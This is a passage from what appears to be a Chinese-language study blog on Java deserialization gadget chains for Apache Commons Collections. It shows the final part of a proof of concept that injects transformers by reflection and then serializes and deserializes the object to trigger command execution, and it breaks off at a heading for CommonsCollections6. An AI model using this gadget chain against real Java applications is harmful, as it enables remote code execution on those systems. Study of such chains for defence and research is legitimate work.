 ```java
        Object aa = constructor.newInstance(Override.class, map1);
        // 序列化前再将真正触发命令的transformers设置进去
        Field iTransformers = ChainedTransformer.class.getDeclaredField(("iTransformers"));
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain,transformers);

        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(aa);
        oos.close();
        // 反序列化
        ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = in.readObject();
        in.close();
    }
```

![image-20220320225339874](java反序列化之CC链1-7学习/image-20220320225339874.png)

## CommonsCollections6
